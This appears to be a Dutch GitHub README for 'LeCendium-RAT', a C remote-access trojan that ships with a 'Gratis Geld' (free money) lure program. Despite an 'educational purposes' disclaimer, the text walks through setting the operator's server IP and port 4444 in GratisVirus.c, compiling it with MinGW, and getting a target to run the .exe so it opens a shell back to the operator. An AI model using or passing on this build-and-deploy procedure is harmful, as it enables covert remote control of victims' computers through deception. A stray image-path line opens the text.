 # LeCendium-RAT
- Deze RAT (Remote Administration Tool) is gemaakt voor educatieve doeleinden.

### Beschrijving
LeCendium zichzelf is gemaakt in C. Het bijgeleverde 'Gratis Geld' programma, is maar een eenvoudig voorbeeld hoe je deze RAT kan inzetten.
Het 'Gratis Geld' programma is gemaakt in C#. Ook hier zijn de code bestanden van beschikbaar.

### Vereisten voor gebruik
- Notepad++ of een IDE.
- MinGW
- Windows 7+ met administrator rechten.

### Editen naar persoonlijke voorkeuren
- Voor het editen naar persoonlijke voorkeuren, heb je de bovenstaande vereisten nodig.

- Open GratisVirus.c met jouw IDE (Sublime Text, Atom, etc)
- Verander de volgende 2 regels naar jouw ServerIP en Port voor connectie.
- Regel 143: `$ ServIP = "192.168.198.130";`
- Regel 144: `$ ServPort = 4444;`
- Stop de GratisVirus.c file in de bin directory van mingw32.

- Wanneer je klaar bent met het editen van deze gegevens, op je CMD (ALS ADMINISTRATOR)
- Change Directory naar de bin van MinGW. (`$ cd C:\Program Files (x86)\mingw-w64\i686-8.1.0-posix-dwarf-rt_v6-rev0\mingw32\bin`
- Voer in CMD het volgende in : `$ gcc GratisVirus.c naamvanexebestand -lwininet -lwsock32` (Dit maakt een .exe bestand van de .c file)
De gebruiker of (target), zal dit .exe bestand moeten openen op een shellsessie te creëren.



